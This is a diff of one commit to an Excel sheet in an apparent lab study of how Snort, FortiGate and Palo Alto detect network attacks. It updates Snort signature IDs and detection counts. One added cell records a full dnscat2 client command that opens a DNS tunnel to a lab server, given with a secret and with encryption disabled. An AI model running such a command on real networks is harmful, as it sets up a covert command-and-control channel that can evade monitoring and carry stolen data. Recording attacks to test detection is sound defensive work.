

Before and after one commit to javgarbor10/Snort-FG-PA-Analisis_Capacidad_deteccion_Ataques_red, an Excel workbook: hojas/Detecciones.xlsx, sheet (B) - Detecciones, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; charts and pictures not drawn; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/hojas/Detecciones.xlsx (sheet (B) - Detecciones)
+++ b/hojas/Detecciones.xlsx (sheet (B) - Detecciones)
-Z79:Z80: 2002752.2
+Z79:Z80: 2002752, 2002749
-W80: 2002752.2
+W80: 2002752, 2002749
-S81: 54827
+S81: -
-S81 text colour: #FF0000
+S81 text colour: black
-T81: 1
+T81: -
-U81: 66
+U81: -
-W81: 2002752,2002749,2013514,54827
+W81: 2002752, 2002749, 2100527
-X81: 4
+X81: 3
-Y81: 71
+Y81: 7
-O82:O83 text colour: black
+O82:O83 text colour: #FF0000
-S82 text colour: black
+S82 text colour: #FF0000
-AC82: -
+AC82: Envio de peticiones DNS como canal de comunicaciones con la víctima. Comando: timeout 15s /root/dnscat2/client/dnscat --dns server=192.168.2.2,port=53 --secret= acabc17b6904a7f8fada4e7f8de4bce8 --no-encryption
```
Also changed, not shown: 15 edited cells and cell formats elsewhere in this sheet.
